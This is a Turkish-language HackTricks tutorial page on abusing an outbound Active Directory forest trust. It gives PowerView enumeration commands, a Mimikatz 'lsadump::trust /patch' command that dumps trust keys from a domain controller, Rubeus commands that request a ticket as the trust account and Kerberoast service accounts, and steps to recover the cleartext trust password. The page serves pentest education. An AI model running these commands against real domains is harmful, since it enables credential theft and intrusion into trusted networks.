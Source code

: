 # Dış Orman Alanı - Tek Yönlü (Çıkış)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu senaryoda **alanınız** bazı **yetkileri** **farklı alanlardan** bir **prensipe** **güvenmektedir**.

## Sayım

### Çıkış Güveni
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

İki alan arasında bir güven ilişkisi kurulduğunda, burada alan **A** ve alan **B** olarak tanımlanan bir güvenlik açığı mevcuttur; alan **B**, alan **A**'ya güvenini genişletir. Bu yapılandırmada, alan **B** için alan **A**'da özel bir hesap oluşturulur ve bu hesap, iki alan arasındaki kimlik doğrulama sürecinde kritik bir rol oynar. Alan **B** ile ilişkilendirilen bu hesap, alanlar arasında hizmetlere erişim için biletleri şifrelemek amacıyla kullanılır.

Burada anlaşılması gereken kritik nokta, bu özel hesabın şifresi ve hash'inin, alan **A**'daki bir Alan Denetleyicisinden bir komut satırı aracı kullanılarak çıkarılabileceğidir. Bu işlemi gerçekleştirmek için kullanılan komut:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Bu çıkarım, adının ardından bir **$** ile tanımlanan hesabın aktif olması ve **A** alanının "Domain Users" grubuna ait olması nedeniyle mümkündür; böylece bu grubun ilişkili izinlerini miras alır. Bu, bireylerin bu hesabın kimlik bilgilerini kullanarak **A** alanına kimlik doğrulaması yapmalarını sağlar.

**Uyarı:** Bu durumu, sınırlı izinlerle de olsa bir kullanıcı olarak **A** alanında bir yer edinmek için kullanmak mümkündür. Ancak, bu erişim **A** alanında numaralandırma yapmak için yeterlidir.

`ext.local` güvenen alan ve `root.local` güvenilen alan olduğunda, `root.local` içinde `EXT$` adında bir kullanıcı hesabı oluşturulacaktır. Belirli araçlar aracılığıyla, Kerberos güven anahtarlarını dökerek `root.local` içindeki `EXT$` kimlik bilgilerini açığa çıkarmak mümkündür. Bunu başarmak için kullanılan komut:
```bash
lsadump::trust /patch
```
Bunun ardından, çıkarılan RC4 anahtarını kullanarak `root.local` içinde `root.local\EXT$` olarak kimlik doğrulamak için başka bir araç komutu kullanılabilir:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Bu kimlik doğrulama adımı, `root.local` içindeki hizmetleri listeleme ve hatta istismar etme olasılığını açar; örneğin, hizmet hesap kimlik bilgilerini çıkarmak için bir Kerberoast saldırısı gerçekleştirmek:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Açık metin güven ilişkisi parolasını toplama

Önceki akışta, **açık metin parolası** yerine güven ilişkisi hash'i kullanıldı (bu da **mimikatz tarafından döküldü**).

Açık metin parolası, mimikatz'tan alınan \[ CLEAR ] çıktısını onaltılıdan dönüştürerek ve null byte'ları ‘\x00’ kaldırarak elde edilebilir:

![](<../../.gitbook/assets/image (938).png>)

Bazen bir güven ilişkisi oluşturulurken, kullanıcı tarafından güven için bir parola girilmesi gerekir. Bu gösterimde, anahtar orijinal güven ilişkisi parolasıdır ve dolayısıyla insan tarafından okunabilir. Anahtar döngüye girdiğinde (30 gün), açık metin insan tarafından okunabilir olmayacak ancak teknik olarak hala kullanılabilir.

Açık metin parolası, güven hesabı olarak normal kimlik doğrulama gerçekleştirmek için kullanılabilir; bu, güven hesabının Kerberos gizli anahtarını kullanarak bir TGT talep etmenin bir alternatifidir. Burada, ext.local'dan Domain Admins üyeleri için root.local sorgulanıyor:

![](<../../.gitbook/assets/image (792).png>)

## Referanslar

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
